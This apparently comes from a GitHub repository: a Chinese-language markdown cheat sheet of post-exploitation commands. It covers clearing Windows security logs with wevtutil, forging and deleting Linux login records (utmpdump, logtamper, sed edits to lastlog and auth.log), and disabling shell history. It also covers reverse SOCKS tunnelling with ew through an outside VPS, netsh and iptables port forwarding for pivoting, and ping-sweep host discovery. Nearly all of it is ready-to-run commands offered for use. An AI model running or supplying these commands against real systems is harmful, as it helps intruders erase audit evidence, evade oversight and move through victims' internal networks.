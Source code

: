 ## 日志
### windows 
1. 通过eventvwr.msc 打开事件查看器管理日志
2. windows 不同事件有不同的事件id
    ```
        4624  --登录成功   
        4625  --登录失败  
        4634 -- 注销成功
        4647 -- 用户启动的注销   
        4672 -- 使用超级用户（如管理员）进行登录
        4648 -- 远程到本机的记录

    ```

4. windows 日志有5钟
>应用程序

>安全

>Setup

>系统

>转发事件
5. 一般删除安全类日志 通过windwos 自带的wevtutil.exe 工具
    1. 获得Security的前十条日志(需要system权限)
    
    >wevtutil qe Security /f:text /c:10

    >Get-WinEvent -FilterHashtable @{logname="application";starttime=$date}
    2. 通过查看xml格式获得日志对应的EventRecordID(相当于编号)

    > wevtutil qe Security /f:xml /rd:true /c:10
    3. 删除所有日志(会生成一条删除日志的日志)(system权限)
    >wevtutil cl Security
    
### linux日志
#### ssh登录日志
1. touch  -r  a.txt b.txt 设置与b.txt一样的时间戳
2. `w` 查看当前登入系统的用户信息及用户当前的进程，用户登录信息来自`/var/run/utmp`
3. `lastlog` 列出所有用户最近登录的信息，或者指定用户的最近登录信息。lastlog引用的是/var/log/lastlog文件中的信息,ssh登录时会读取lastlog以提示上次登录的信息如
>Last login: Thu Feb 20 18:49:37 2020 from 171.91.140.94

4. `lastb`  `/var/log/btmp`：记录失败的登录尝试信息，默认由lastb命令查看。
5. `who`  /var/run/utmp：记录当前正在登录系统的用户信息，默认由who和w记录当前登录用户的信息
6. `users`  默认读取的是`/var/run/utmp`
7. `utmpdump` 用于转储二进制日志文件到文本格式的文件以便查看，同时也可以修改二进制文件 (上面的日志文件)  可以将其内容输出成为文本格式，并修改文本输出内容，然后将修改后的内容导入回二进制日志中
8. `last` 往回搜索`wtmp`来显示自从文件第一次创建以来登录过的用户


9. 通过如下方法更改文件以达到更改登录信息

        utmpdump /var/log/utmp > tmp_output.txt  //#导出文件信息

         #<使用文本编辑器修改 tmp_output.txt>

       utmpdump -r tmp_output.txt > /var/log/utmp




9. 最好的方法就是登录时候如下 看不到登录信息(不记录登录日志) -T 不要求分配终端(tty)
    
>ssh -T root@127.0.0.1 bash -i 

10. 或者用logtamper 工具
    
   10.1 清楚`w who users`记录也就是/var/run/utmp

>./logtamper-static -h root 171.91.140.94

   10.2  清楚last日志也就是/var/log/wtmp
 
 >./logtamper-static -w  root 171.91.141.79

   10.3 清楚lastlog也就是修改,或删除登录提示c语言写的有点问题，以后改一改，可以用这个python的
       https://github.com/re4lity/logtamper.git

13. lastlog 修改替换

>sed -i 's/192.168.1.1/8.8.8.8/' /var/log/lastlog


14. auth.log  /var/log/auth.log 或 /var/log/secure 存储来自可插拔认证模块(PAM)的日志，包括成功的登录，失败的登录尝试和认证方式(删除关键字的行)
> sed -i '/ip/,$ d' auth.log //从包含ip到最后一行都删除


#### 命令日志

1. linux 登录日志记录在`.bash_history`中，但每次执行的命令可以通过`history -c`将`目前shell`中的所有history命令消除,也不会写入日志`history` 查看当前日志

2. 不记录日志 `export HISTFILE=/dev/null` 或者 `export HISTSIZE=0;` 当前shell下不记录 
#### 程序日志
1. apache httpd.log   access.log  error.log 
2. mysql 家目录 .mysql_history
3. python .python_history

## 端口转发
### 内网之间转发
windows 自带工具进行转发

```java
 //本机监听10022端口,当有socket连接到10022端口时,本机就连接到192.168.2.53的22端口,本机的10022端口可以接受的连接地址为"*",使用的协议为tcp,当前仅支持传输控制协议 

C:\>netsh interface portproxy add v4tov4 listenport=10022 connectaddress=192.168.2.53 connectport=22 listenaddress=* protocol=tcp

//显示所有。

C:\>netsh interface portproxy show all

//删除配置: 本机的监听端口为10022,10022端口接受的连接地址为"*",使用的协议为tcp,当前仅支持TCP协议。
C:\>netsh interface portproxy delete v4tov4 listenport=10022 listenaddress=* protocol=tcp
//使用netsh interface portproxy记得配置Windows和出口路由器防火墙规则
```
linux 使用iptables 配置DNAT规则进行转发
```java
//第一条DNAT转发，转发本机2222端口到192.168.1.138机器

//开启转发
echo 1 > /proc/sys/net/ipv4/ip_forward
[root@ng1 ~]# iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.1.138:22
```
### 内网向外网转发
1. ew 内网让外网访问
```
外网机器
./ew_linux_x64 -s rcsocks -l 1985 -e 8985
内网机器
ew_win32.exe -s rssocks  -d vpsip -e 8985

```
2. 设置代理
有时候内网只有一台（主机1）可以访问内网资源，但这台不能访问外网，如果存在一台（主机2）外网主机可以访问，但主机2只能访问内网的主机1

```java
//在主机1上执行如下，意思是在本地建立socks5代理,端口为
ew_win32.exe -s ssocksd -l 7777 
//在主机2上执行也就是把外部端口1090的流量转发到内网192.168.32.170主机1上的7777端口上
ew_for_Win.exe -s lcx_tran -l 1090 -f 192.168.32.170 -g 7777
```
## 内网扫描
### ip收集
* 查看arp表
>arp -a 
* 通过ping 命令查找存活主机(linux)
> for i in `seq 1 255`; do ping -c 2 192.168.100."$i"|grep  "64 bytes" ;done
* windows 命令查找存活主机
>for /L %I in (1,1,254) do @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
